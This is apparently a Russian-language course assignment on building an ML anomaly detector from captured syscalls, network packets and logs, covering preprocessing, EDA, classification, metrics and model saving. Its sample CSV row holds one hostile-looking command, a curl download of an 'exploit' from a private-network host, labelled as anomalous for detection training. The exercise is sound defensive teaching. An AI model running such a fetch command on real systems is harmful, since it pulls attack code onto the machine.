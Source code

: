# 3. Построение и обучение простой модели для обнаружения аномалий

Вы завершили полевое расследование в [изолированной Linux-среде](https://github.com/frizzymonsta/docker_prac/), зафиксировали системную активность (системные вызовы, сетевые пакеты, логи) и собрали её в виде структурированного CSV-файла.

Теперь ваша задача — применить методы машинного обучения для автоматического обнаружения подозрительных действий на основе этих данных.

Ваша цель: построить и обучить модель, способную отличать нормальные события от аномальных, по данным, полученным в ходе расследования.

Все примеры представлены [тут](lect.ipynb).

## Цели задания

* Выполнить предобработку CSV-датасета: очистка, фильтрация, кодирование.
* Провести разведочный анализ данных ([EDA](https://www.ibm.com/think/topics/exploratory-data-analysis)) с графиками и сводками.
* Построить модель бинарной классификации (норма / аномалия) и обучить её.
* Визуализировать результаты обучения (loss, accuracy).
* Построить матрицу ошибок, рассчитать метрики качества (precision, recall, F1).
* Сохранить обученную модель и загрузить обратно для проверки.

## Данные

Ваш `CSV`-датасет из предыдущего задания.

Пример:

```csv
timestamp,source,event_type,details,classification
2025-06-23 12:02:33,client,syscall,execve /usr/bin/curl http://10.10.0.2:8080/exploit,1
```

## Этапы работы

### 1. Загрузка и анализ данных

Используйте [pandas](https://pandas.pydata.org/docs/) для загрузки датасета.

Проверьте пропуски, типы данных, распределение классов.

Постройте:
* Диаграммы распределения классов
* Гистограммы по признакам.

### 2. Препроцессинг

Удалите ненужные признаки.

Преобразуйте категориальные признаки с помощью [LabelEncoder](https://scikit-learn.org/stable/modules/generated/sklearn.preprocessing.LabelEncoder.html).

Выделите X и y, где:
* X — признаки;
* y — колонка разметки.

### 3. Разделение на обучающие и тестовые данные

[train_test_split](https://scikit-learn.org/stable/modules/generated/sklearn.model_selection.train_test_split.html)

### 4. Построение модели

Для построения модели можно использовать любые фреймворки. Примеры: sklearn, tensorflow/keras, pytorch.

По необходимости примените обработчики на данных и поменяйте размер тензора.

**Обоснуйте свой выбор по модели, ее параметрам и преобразованию данных.**

### 5. Обучение и визуализация

Визуализируйте loss и accuracy по итерациям обучения (matplotlib/seaborn).

### 6. Оценка производительности

* Постройте матрицу зависимостей.
* Постройте сводный отчет.

### 7. Сохранение и загрузка модели

* Сохраните модель.
* Загрузите её обратно и запринтуйте ее структуру.

##  Что нужно сдать

* notebook.ipynb или .py со всем кодом.
* Визуализации и итоговая матрица ошибок.
* Сохранённая модель.
* Небольшой README.md, где описано:
    * Какие признаки вы выбрали и почему.
    * Что показала модель.
    * Какие атаки удалось уловить.

## Совет

Не бойтесь переобучения/недообучения — в этом задании не важна точность модели, важно пройти весь цикл анализа от загрузки данных до экспортируемой модели. Это практическое упражнение на воспроизводимость и понимание этапов ML.

Отправлять на `zelichenok@comsec.spb.ru`.